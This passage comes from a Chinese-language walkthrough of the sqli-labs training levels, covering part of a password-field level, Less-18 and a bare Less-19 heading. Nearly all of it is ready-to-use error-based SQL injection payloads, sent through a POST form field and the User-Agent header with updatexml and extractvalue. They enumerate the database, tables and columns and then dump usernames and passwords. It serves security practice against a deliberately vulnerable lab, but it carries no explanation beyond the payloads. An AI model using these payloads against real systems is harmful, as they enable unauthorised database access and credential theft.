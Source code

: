 爆表名payload

```
uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+&submit=Submit
```

爆列名payload

```
uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) --+&submit=Submit
```

爆值payload

```
uname=admin&passwd=11'  and  updatexml(1,concat(0x7e,(select password from (select password from users limit 7,1) test ),0x7e),1) --+&submit=Submit
```

# **Less-18** 

**POST - Header Injection - Uagent field - Error based (基于错误的用户代理，头部POST注入)**



爆库payload

```
User-Agent: ' and extractvalue(1,concat(0x7e,database())) and '
```

暴表payload

```
User-Agent: ' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) and '
```

暴字段payload

```
User-Agent: ' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) and '
```

暴值payload

```
User-Agent: ' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users))) and '
```

未显示完全

```
User-Agent: ' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','Angelina')))) and '
```

# **Less-19** 
